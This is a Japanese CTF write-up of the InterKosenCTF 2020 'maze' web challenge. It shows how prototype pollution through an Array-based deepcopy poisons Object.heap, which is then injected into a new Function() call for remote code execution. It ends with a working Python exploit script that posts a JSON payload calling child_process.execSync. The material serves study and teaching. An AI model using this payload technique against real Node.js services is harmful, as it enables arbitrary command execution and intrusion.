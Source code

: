 +++
title = "InterKosenCTF 2020 - maze"
date = 2022-06-01

[taxonomies]
tags = ["CTF", "Writeup", "Web", "Prototype Pollution"]
+++

## TL;DR

- `new Array()`に対するオブジェクトのコピー時にPrototype Pollutionが出来る
- `const heap = this.heap || "<default>"`のような場所があるので`object.heap`を汚染する
- なんと`heap`をjavascript片として関数を作るという処理があるのでそこで任意コード実行をする

## Prerequisite

- Prototype Pollution

## Writeup

ソースコードは複数に分かれているので割愛。JSON形式で迷路を飛ばすとそれを解いてくれるという問題。

迷路を解くアルゴリズムの中で以前の状態から複数の状態に遷移する際に参照渡しだと困ることから、次のような`deepcopy`関数が存在する。

```javascript
function is_array(obj) {
    return obj !== null && typeof obj === 'object';
}

function __deepcopy_internal(result, array) {
    for (let index in array) {
        if (is_array(result[index]) && is_array(array[index])) {
            __deepcopy_internal(result[index], array[index]);
        } else {
            result[index] = array[index];
        }
    }
    return result;
}

/**
 * deepcopy: Clone an Array object
 */
function deepcopy(obj) {
    return __deepcopy_internal(new Array(), obj);
}
```

`__deepcopy()`がPrototype Pollutionができそうな実装になっている。`deepcopy()`を見ると第一引数が`new Array()`となっているので、`obj`側の`__proto__`に値を設定したらなんかいい感じのことが出来る予感がする。

実際に(開発者ツールのような)適当なjavascriptの実行環境で`Array()`のprototypeを辿ってみると次のようになっている。

```
>> let a = new Array();
<< undefined
>> a.__proto__
<< Array []
>> a.__proto__.__proto__
<< Object { … }
```

2回上へと辿ることで`Object`を得ることが出来る。ということで`a["__proto__"]["__proto__"]["<attr>"]`に値`v`を入れて`a`を`deepcopy`にぶち込むと、`Object.attr`に`v`が代入される。この`deepcopy`は迷路のクラスを定義している`maze.js`で用いられている。

```javascript

/**
 * Maze: State of maze used by MazeSolver
 *
 * args:
 *   F   : Maze (1:wall / 0:nothing)
 *   S   : Current position represented by [x, y]
 *   G   : Goal position represented by [x, y]
 *   move: Steps made so far
 */
class Maze {
    constructor(F, S, G, move='') {
        this.F = F;
        this.width = F[0].length;
        this.height = F.length;
        this.S = S;
        this.G = G;
        this.move = move;
    }
    /* f: Cost for A* search */
    get f() { return this.g + this.h; }
    /* g: Steps required so far */
    get g() { return this.move.length; }
    /* h: Heuristic function */
    get h() { return Math.abs(this.S[0] - this.G[0])
              + Math.abs(this.S[1] - this.G[1]); }
    /* hash: Unique value of this state */
    get hash() { return (this.S[0] << 8) | this.S[1]; }
    /* next: Generate possible next states */
    next() {
        var candidates = [];
        if (this.S[0] > 0 && this.F[this.S[1]][this.S[0]-1] == 0) {
            // Move left
            var P = deepcopy(this.S);
            P[0] -= 1;
            candidates.push(new Maze(this.F, P, this.G, this.move+'A'));
        }
        if (this.S[0] < this.width - 1 && this.F[this.S[1]][this.S[0]+1] == 0) {
            // Move right
            var P = deepcopy(this.S);
            P[0] += 1;
            candidates.push(new Maze(this.F, P, this.G, this.move+'D'));
        }
        if (this.S[1] > 0 && this.F[this.S[1]-1][this.S[0]] == 0) {
            // Move up
            var P = deepcopy(this.S);
            P[1] -= 1;
            candidates.push(new Maze(this.F, P, this.G, this.move+'W'));
        }
        if (this.S[1] < this.height - 1 && this.F[this.S[1]+1][this.S[0]] == 0) {
            // Move bottom
            var P = deepcopy(this.S);
            P[1] += 1;
            candidates.push(new Maze(this.F, P, this.G, this.move+'S'));
        }
        return candidates;
    }
}
```

迷路を移動する際に始点が変わることから、その時に`deepcopy`が用いられている。0と1のインデックスには数値が入っていないといけないが、それ以外のインデックス(キー)なら問題が無さそうなので、迷路の始点を指定する際に前述のようなPrototype Pollutionを引き起こすようなJSONを仕込む。

問題は、Prototype Pollutionが出来たところでどうやってフラグを得るかである。フラグを変数やcookieに入れたりしている様子は見られないのでロジックのバグを引き起こしてフラグを開示させるような攻撃では無い気がする。

そこでRCEを狙うが、実はこの問題の構成は`app.js`が`solve.js`を`execFile`によって子プロセスとして実行しているため、`solve.js`側でPrototype Pollutionを起こしても`app.js`側に影響は無く、加えてここ以外に`execFile`を使っている様子は見られないので`execFile`を使う方針は外す。

Prototype Pollution自体は簡単に見つかったが次が見つからず苦しんでいたが、`maze.js`を眺めていると、次のような記述が見られる。

```javascript
		const heap = this.heap || 'BinaryHeap';
		var q = new Function('c', 'return new this.'+heap+'({comparator:c});')
            .bind(pq)(comparator);
```

`Function`はコンストラクターの先頭に引数の文字列を取り、末尾に関数の中身を記述するjavascriptの文字列をとって、その関数を構成する。ということはここで作られた関数はどこかで使われるはずで、もし`heap`の値を任意に設定出来れば好きな処理を実行出来る可能性がある。

正常系であれば、`heap`という変数に入った値を用いてデフォルトは`"BinaryHeap"`という文字列が入り、ここはリクエスト時に指定した値を入れることが出来るが次のような制限がある。

```javascript
    // Validation
    if (req.body.heap
        && !['BinaryHeap', 'PairingHeap', 'SkewHeap'].includes(req.body.heap)) {
        req.body.heap = 'BinaryHeap'; // default
    }
```

逆に言えば、ここで値を設定しなければ、Prototype Pollutionで`Object.heap`を設定した時にそれが用いられる。よって、Prototype Pollutionでは`heap`メンバを汚染する。

これと上記の`Function`を利用していい感じの関数を構成する事を考える。`return new this.`と末尾の`{comparator:c});`が邪魔だが、いい感じに無視できるような構成にすると次のような関数を構成することになった。

```javascript
return this.BinaryHeap({comparator:c}), function() {console.log(process.mainModule.require('child_process').execSync('<RCE>').toString())}();//({comparator:c});
```

実はその後の`.bind(pq)(comparator)`の意味はよくわかっておらず、そもそもこうやって作られた`q`がどこで発火するのかもわからない。が、このような関数となるようなPrototype Pollutionを引き起こすと何故か知らないが`<RCE>`で指定したコマンドの実行結果が表示される。

## Code

```python
import requests
import json

HOST = "localhost"
PORT = 14002

cmd = "cat flag.txt"

maze = {
    "map": [
        [1, 1, 1, 1],
        [1, 0, 0, 1],
        [1, 0, 0, 1],
        [1, 1, 1, 1]
    ],
    "start": {
        "0": 1,
        "1": 1,
        "__proto__": {
            "__proto__": {
                "heap": "BinaryHeap({comparator:c}), function() {console.log(process.mainModule.require('child_process').execSync('" + cmd + "').toString())}();//"
            }
        }
    },
    "goal": (2, 2),
    "heap": None
}

r = requests.post(f"http://{HOST}:{PORT}/solve",
                  headers = {"Content-Type": "application/json"},
                  data = json.dumps(maze))
print(r.text)
```

## Flag

ローカルでやっただけ

## Resources

- [InterKosenCTF2020-challenges/web/maze/distfiles at master · theoremoon/InterKosenCTF2020-challenges](https://github.com/theoremoon/InterKosenCTF2020-challenges/tree/master/web/maze/distfiles): 問題ファイル
- [CTFのWebセキュリティにおけるJavaScript,nodejsまとめ（Prototype pollution, 難読化） - はまやんはまやんはまやん](https://blog.hamayanhamayan.com/entry/2021/12/18/132420): node.jsのワンライナーを拝借した
